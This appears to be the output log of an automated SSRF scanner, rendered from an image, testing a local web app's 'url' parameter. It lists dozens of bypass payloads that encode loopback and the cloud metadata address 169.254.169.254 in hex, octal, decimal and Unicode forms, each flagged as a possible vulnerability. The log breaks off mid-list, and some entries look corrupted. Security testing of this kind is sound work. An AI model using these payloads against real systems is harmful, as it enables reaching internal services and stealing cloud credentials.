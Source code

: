  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x7f.0x1.0x0.0x1` _(POST)_
- Testing: `http://localhost:4200/?url=0x7f.0x1.0x1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x7f.0x1.0x1` _(POST)_
- Testing: `http://localhost:4200/?url=ht%EF%BF%BD%EF%B8%8Ftp%3A%2F%2F12%EF%BF%BD7.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=ht%EF%BF%BD%EF%B8%8Ftp%3A%2F%2F12%EF%BF%BD7.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=loopback%3A%2B11211aaa`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=loopback%3A%2B11211aaa` _(POST)_
- Testing: `http://localhost:4200/?url=loopback%3A00011211aaaa`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=loopback%3A00011211aaaa` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%91%AF%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%E3%80%82%E2%91%AF%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%91%AF%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%E3%80%82%E2%91%AF%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3` _(POST)_
- Testing: `http://localhost:4200/?url=169.254.169.254`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=169.254.169.254` _(POST)_
- Testing: `http://localhost:4200/?url=2852039166`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=2852039166` _(POST)_
- Testing: `http://localhost:4200/?url=7147006462`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=7147006462` _(POST)_
- Testing: `http://localhost:4200/?url=0xa9.0xfe.0xa9.0xfe`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0xa9.0xfe.0xa9.0xfe` _(POST)_
- Testing: `http://localhost:4200/?url=0251.0376.0251.0376`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0251.0376.0251.0376` _(POST)_
- Testing: `http://localhost:4200/?url=169%E3%80%82254%E3%80%82169%E3%80%82254`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=169%E3%80%82254%E3%80%82169%E3%80%82254` _(POST)_
- Testing: `http://localhost:4200/?url=169%EF%BD%A1254%EF%BD%A1169%EF%BD%A1254`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=169%EF%BD%A1254%EF%BD%A1169%EF%BD%A1254` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%91%A3%E2%91%A1%E2%91%A4%EF%BD%A1%E2%91%A4%E2%91%A0%E2%93%AA%EF%BD%A1%E2%91%A3%E2%91%A1%E2%91%A4%EF%BD%A1%E2%91%A4%E2%91%A0%E2%93%AA%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%91%A3%E2%91%A1%E2%91%A4%EF%BD%A1%E2%91%A4%E2%91%A0%E2%93%AA%EF%BD%A1%E2%91%A3%E2%91%A1%E2%91%A4%EF%BD%A1%E2%91%A4%E2%91%A0%E2%93%AA%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%5B%3A%3A%E2%91%A0%E2%91%A5%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3%EF%BD%A1%E2%91%AF%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3%5D%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B%3A%3A%E2%91%A0%E2%91%A5%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3%EF%BD%A1%E2%91%AF%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3%5D%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%5B%3A%3A%E2%93%95%E2%93%95%E2%93%95%E2%93%95%3A%E2%91%A0%E2%91%A5%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%E3%80%82%E2%91%AF%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%5D%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B%3A%3A%E2%93%95%E2%93%95%E2%93%95%E2%93%95%3A%E2%91%A0%E2%91%A5%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%E3%80%82%E2%91%AF%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%5D%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%E3%80%82%E2%91%A3%E2%91%A2%E2%91%A4%E2%91%A0%E2%91%A7%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%E3%80%82%E2%91%A3%E2%91%A2%E2%91%A4%E2%91%A0%E2%91%A7%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%91%AF%E2%91%A5%E2%91%A7%E2%91%A8%E2%91%A5%E2%91%A5%E2%91%A1%3A80`